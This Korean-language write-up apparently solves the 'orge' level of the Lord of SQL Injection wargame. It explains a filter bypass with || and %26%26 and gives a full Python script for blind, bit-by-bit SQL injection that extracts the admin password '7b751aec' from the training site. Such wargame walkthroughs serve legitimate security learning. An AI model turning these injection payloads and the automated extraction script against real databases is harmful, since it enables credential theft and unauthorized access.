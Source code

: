 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Lord of SQL Injection orge Write-Up</h1>
</body>
<br>
<br>
</html>

문제를 살펴보자

![image](https://github.com/user-attachments/assets/67efb332-bcff-4b47-890e-60540580addf)

코드를 읽어보면 가장 먼저 눈에 띄는 부분은 
```python
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

or와 and를 차단하고 있다.

그렇다면 or는 ||로, and는 &&(%26%26)로 대체할 수 있다.

이번 문제에서도 ```addslashes()```가 사용되고 있다. 

```python
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
```
또한 위 쿼리를 봤을 때 orc 문제와 마찬가지로 패스워드를 직접 알아내는 문제 같다.

```python
$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
$result = @mysqli_fetch_array(mysqli_query($db,$query)); 
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
```
그리고 위에 쿼리를 살펴보면 싱글쿼터를 차단하고 있지 않다. 

orc 문제에서 했던 방법 그대로 풀면될 것 같다.

하지만 값을 하나하나 넣는게 너무 힘들었기 때문에 이번에는 파이썬으로 자동화 스크립트를 만들어 풀어보려 한다.

1. 초기값 설정
   
필요한 값들을 설정한다.

```python
from requests import get

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
header = {'cookie' : 'PHPSESSID=자신의 쿠키값'}
```

2. pw 길이 확인

먼저 pw 값을 구하기 위해 pw 길이부터 구한다.

or와 and가 필터링되어 있기 때문에 각각 ||, &&을 사용한다.

그러나 url에서 &은 혼동이 올 수 있기 때문에 &대신에 아스키코드인 %26을 써준다.

```python
password_length = 0

while True:
    password_length += 1
    query = f"{url}/?pw=' || id='admin' %26%26 length(pw)={password_length}-- -"
    response=get(query, headers=header)
    if "<h2>" in response.text:
    	break
print(f"password_lengh : {password_length}")
```

pw 길이 확인 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw)=1-- -'
```

3. pw의 각 문자 별 bit 길이 찾기

pw의 문자가 어떤 문자로 이루어져 있는지 모르기 때문에 bit열로 변환해서 추출하기 전에 길이를 알아야 한다.

ord도 or에 걸리기 때문에 ascii로 변경시킨다.

```python
for i in range(1, password_length + 1):
	bit_length = 0
	while True:
    	bit_length += 1
        query = f"{url}/?pw=' || id='admin' %26%26 length(bin(ascii(substr(pw, {i}, 1))))={bit_length}-- -"
        response=get(query, headers=header)
    	if "<h2>" in response.text:
    		break
    print(f"bit_number : {i}, length : {bit_length}")
```

각 문자열 bit 길이 확인할 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && length(bin(ascii(substr(pw, 1, 1))))=1-- -'
```

4. pw의 각 문자 별 bit열 추출하기

pw의 bit열의 길이를 통해 bit열을 추출한다.

```python
bits = ""
for j in range(1, bit_length + 1):
	query = f"{url}/?pw=' || id='admin' %26%26 substr(bin(ascii(substr(pw, {i}, 1))), {j}, 1)= '1'-- -"
    response=get(query, headers=header)
    if "<h2>" in response.text:
    	bits += "1"
    else:
    	bits += "0"
print(f"bit_number : {i}, bit : {bits}")
```

pw의 bit열 추출할 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && substr(bin(ascii(substr(pw, 1, 1))), 1, 1)= '1'-- -'
```

5. bit열을 문자열로 변환

bit열을 문자열로 변환하면 pw의 값이 나온다.

```python
password = ""
...
password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

print(password)
```

위 과정을 합치면 코드는 다음과 같다.

```python
from requests import get

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
header = {'cookie' : 'PHPSESSID=자신의 쿠키값'} 

password_length = 0

while True:
    password_length += 1
    query = f"{url}/?pw=' || id='admin' %26%26 length(pw)={password_length}-- -"
    response = get(query, headers=header)
    if "<h2>" in response.text:
        break
print(f"password_length: {password_length}")

password = ""

for i in range(1, password_length + 1):
    bit_length = 0
    while True:
        bit_length += 1
        query = f"{url}/?pw=' || id='admin' %26%26 length(bin(ascii(substr(pw, {i}, 1))))={bit_length}-- -"
        response = get(query, headers=header)
        if "<h2>" in response.text:
            break
    print(f"bit_number: {i}, length: {bit_length}")
    
    bits = ""
    for j in range(1, bit_length + 1):
        query = f"{url}/?pw=' || id='admin' %26%26 substr(bin(ascii(substr(pw, {i}, 1))), {j}, 1)='1'-- -"
        response = get(query, headers=header)
        if "<h2>" in response.text:
            bits += "1"
        else:
            bits += "0"
    print(f"bit_number: {i}, bit: {bits}")
    
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

print(password)

```

코드를 실행하면 admin의 pw인 '7b751aec'를 얻을 수 있다.

![image](https://github.com/user-attachments/assets/d89fee37-071b-4719-b80b-47bd86eea313)

찾아낸 pw를 입력하면

![image](https://github.com/user-attachments/assets/c0ffaba4-646d-4b42-ade9-b3cdb12385c0)

Clear 했다!!
